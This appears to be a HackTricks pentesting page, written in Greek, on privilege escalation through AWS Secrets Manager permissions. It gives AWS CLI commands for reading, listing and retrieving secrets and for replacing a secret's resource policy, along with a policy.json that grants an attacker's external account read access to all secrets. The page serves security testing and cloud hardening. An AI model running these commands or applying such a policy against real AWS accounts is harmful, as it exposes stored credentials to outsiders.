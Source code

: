 # AWS - Secrets Manager Privesc

{{#include ../../../banners/hacktricks-training.md}}

## Secrets Manager

Για περισσότερες πληροφορίες σχετικά με το secrets manager δείτε:

{{#ref}}
../aws-services/aws-secrets-manager-enum.md
{{#endref}}

### `secretsmanager:GetSecretValue`

Ένας attacker με αυτή την permission μπορεί να πάρει την **αποθηκευμένη τιμή μέσα σε ένα secret** στο AWS **Secretsmanager**.
```bash
aws secretsmanager get-secret-value --secret-id <secret_name> # Get value
```
**Πιθανός αντίκτυπος:** Πρόσβαση σε ευαίσθητα δεδομένα μέσα στην υπηρεσία AWS Secrets Manager.

> [!WARNING]
> Σημειώστε ότι ακόμη και με την άδεια `secretsmanager:BatchGetSecretValue`, ένας επιτιθέμενος θα χρειαζόταν επίσης την `secretsmanager:GetSecretValue` για να ανακτήσει τα ευαίσθητα secrets.

### `secretsmanager:GetResourcePolicy`, `secretsmanager:PutResourcePolicy`, (`secretsmanager:ListSecrets`)

Με τις παραπάνω άδειες είναι δυνατό να **δοθεί πρόσβαση σε άλλους principals/accounts (ακόμη και εξωτερικούς)** για να έχουν πρόσβαση στο **secret**. Σημειώστε ότι για να **διαβαστούν secrets κρυπτογραφημένα** με ένα KMS key, ο χρήστης χρειάζεται επίσης να έχει **πρόσβαση στο KMS key** (περισσότερες πληροφορίες στην [KMS Enum page](../aws-services/aws-kms-enum.md)).
```bash
aws secretsmanager list-secrets
aws secretsmanager get-resource-policy --secret-id <secret_name>
aws secretsmanager put-resource-policy --secret-id <secret_name> --resource-policy file:///tmp/policy.json
```
policy.json:
```json
{
"Version": "2012-10-17",
"Statement": [
{
"Effect": "Allow",
"Principal": {
"AWS": "arn:aws:iam::<attackers_account>:root"
},
"Action": "secretsmanager:GetSecretValue",
"Resource": "*"
}
]
}
```
{{#include ../../../banners/hacktricks-training.md}}
